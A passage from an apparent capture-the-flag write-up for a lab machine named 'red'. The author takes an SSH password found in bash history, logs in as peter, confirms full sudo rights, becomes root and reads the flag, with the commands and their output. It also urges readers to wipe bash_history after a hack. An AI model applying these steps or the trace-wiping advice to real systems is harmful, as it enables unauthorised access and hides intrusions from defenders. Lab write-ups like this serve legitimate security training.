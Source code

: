 When we look closely, we can see that there are 2 user names and passwords. The one I see come up the most is **peter**, and we also see his ssh password! So my fellow hackers - this goes out to all of you... ALWAYS and I mean ALWAYS remember to wipe your bash_history after a hack! 

So let's open up another console, and try to SSH into our target machine with peter's name and password.

```console
root@kali:~# ssh peter@192.168.1.13
-----------------------------------------------------------------
~          Barry, don't forget to put a message here           ~
-----------------------------------------------------------------
peter@192.168.1.13's password: 
Welcome back!

red% sudo -l

We trust you have received the usual lecture from the local System
Administrator. It usually boils down to these three things:

    #1) Respect the privacy of others.
    #2) Think before you type.
    #3) With great power comes great responsibility.

[sudo] password for peter: 
Matching Defaults entries for peter on red:
    lecture=always, env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User peter may run the following commands on red:
    (ALL : ALL) ALL
```

From this point, I noticed that Peter has root privilege from the sudoers file! This makes my life easier! Thus, I went and changed my shell from Z to bash, and went to capturing the flag from the **/root** directory!

```console
red% sudo usermod -s /bin/bash peter
red% sudo -i
➜  ~ cd /root
➜  ~ ls
fix-wordpress.sh  flag.txt  issue  python.sh  wordpress.sql
➜  ~ cat flag.txt
~~~~~~~~~~<(Congratulations)>~~~~~~~~~~
                          .-'''''-.
                          |'-----'|
                          |-.....-|
                          |       |
                          |       |
         _,._             |       |
    __.o`   o`"-.         |       |
 .-O o `"-.o   O )_,._    |       |
( o   O  o )--.-"`O   o"-.`'-----'`
 '--------'  (   o  O    o)  
              `----------`
b6b545dc11b7a270f4bad23432190c75162c4a2b
```
